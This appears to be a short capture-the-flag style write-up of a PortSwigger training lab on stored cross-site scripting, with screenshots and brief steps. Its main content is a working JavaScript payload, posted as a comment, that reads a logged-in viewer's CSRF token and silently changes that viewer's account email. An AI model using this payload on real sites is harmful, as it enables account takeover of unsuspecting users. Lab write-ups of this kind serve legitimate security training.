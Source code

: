 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/902b9f16-ebed-4370-8fa6-b946c42eeb9e)

### Solution

Logged in to the given account

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/ef7abf79-7339-44e2-8f96-d89bfb8df8ea)

now update the email

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/f3e3f5cd-2865-44dc-ae1a-5f6e8c56deb0)

the payload

```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/dbb0f0c9-b1fc-4125-8033-19043e347552)

This will make anyone who views the comment issue a POST request to change their email address to test@test.com

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/bb6656f3-8a41-41d2-bdfb-9f1b9051235d)

lab solved
